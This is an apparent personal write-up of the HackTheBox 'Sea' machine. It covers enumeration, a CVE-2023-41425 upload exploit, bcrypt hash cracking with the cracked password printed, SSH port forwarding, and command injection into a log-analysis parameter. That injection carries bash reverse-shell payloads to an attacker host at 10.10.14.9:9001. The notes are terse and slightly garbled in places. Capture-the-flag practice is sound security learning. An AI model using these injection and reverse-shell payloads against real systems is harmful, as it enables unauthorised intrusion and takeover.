






# Sea

<strong>Summary</strong>

The first hackthebox machine I've done. This writeup isn't as good because of the 
Nmap scan the machine and find a website. Use gobuster/feroxbuster to find a large amount of pages left over on the website. Scan through the pages to find an upload page where there is a script uploading vulnerability.
Check the files in the apache directory and the rest of the program files for information, also checking the network interfaces. Find a hash for a user. Set up a reverse proxy and route traffic through the first machine with a shell to a remote website on the network. 
Login to the remote machine on the browser using the proxy. Catch the request from the remote machine to the system logs using Burp. Send it to the repeater and use it to get a reverse shell on the machine as root.

<strong>What I Learned</strong>

<body>

1. This is my first HTB box, so I learned a lot about general enumeration and process as a whole while working on it
2. Learned about Feroxbuster and which directories are bust-able

</body>

#### Not quite a Bordereau

I had the commands and information saved before I started thinking about posting these on github. In the future there is more detail, but when I did this, it was more of a brain dump and less of a conscious effort to provide a detailed writeup.

## Steps

Scan the machine for open ports
`nmap --open -p- -oA nmap/open <IP>`

Use gobuster to find files on the webserver  
`gobuster dir -u http://10.129.194.230:50000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

Find a registration page on the machine

Find the apache server on `http://10.129.194.230:50000/etc/apache2

Get a reverse shell file onto the target machine using [CVE-2023-41425](https://nvd.nist.gov/vuln/detail/CVE-2023-41425)

### Start a netcat listener and upload the corrupted CVE file using the exploit file

Find where directory for the site configuration is in sites-enabled  
 • `DocumentRoot category in Directory`  
 • `/etc/passwd`

Found BCRYPT hash in : `/var/www/sea/data`. Decrypt it using hashcat.  
`$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q : mychemicalromance`

Grep for every line that contains users  
`cat /etc/passwd | grep sh$`

Find users, then switch to them (password required)  
`su - <Username>`

Check the filesystem table  
`Hidepid=2` -> cannot see processes run by other users  
 `cat /etc/fstab`

What processes are running?  
Ps -> what processes are running | e -> every process (even ones not run by user) | f -> full format listing | forest -> displays in tree-like hierarchy  
`ps -ef --forest`

What ports are listening?

- Ss -> socket statistics | l -> only listening sockets. | n -> numerical addresses | t -> TCP connections | p -> show process id
- `ss -lntp`
- To check the ports that are running
  - `cd /etc/`
  - `grep -R <PORT_NUM> . 2>/dev/null`

Get the service command and check it  
`cat ./systemd/system/multi-user.target.wants/monitoring.service`

Cannot access root/monitoring file, but can set up port forward and access it

Setup an ssh listener locally on port 8081. Forward it from 8081 to 127.0.0.1 locally and direct it to 8080 on the other end (target machine)  
 • `ssh -L 8081:127.0.0.1:8080 amay@<RHOST>`

Then you can access 127.0.0.1:8082 on browser with login

Click the analyze button to get the logs. Send them to the Burp Repeater

In the kali cli, curl the server to look for suspicious traffic  
 • `curl <IP>/random_text`

Check to see if you can inject php code into log file  
 • Set up a proxy and use it to try to run a command  
 ○ KALI -> `curl 10.129.62.179/contretemps -x http://localhost:8080`  
 • Intercept it with Burp, change to a more suspicious command agent

Try to get other files  
 • `/root/root.txt`  
 • `/etc/passwd`  
 • `/etc/shadow`

Try to run a command

- `/root/root.txt;id;%23 %23 is '#'`
- It works, so get a reverse shell
  - `/root/root.txt;bash -c 'bash -i >&/dev/tcp/<KALI_IP>/<PORT> 0>&1*;%23`
  - URL encode with Ctrl + U

Use nohup -> shells persist after the terminal closes  
 • `log_file=root/root.txt;bash+-c+'nohup+bash+-i+>%26/dev/tcp/10.10.14.9/9001+0>%261+%26';#&analyze_log=`  
Get root access

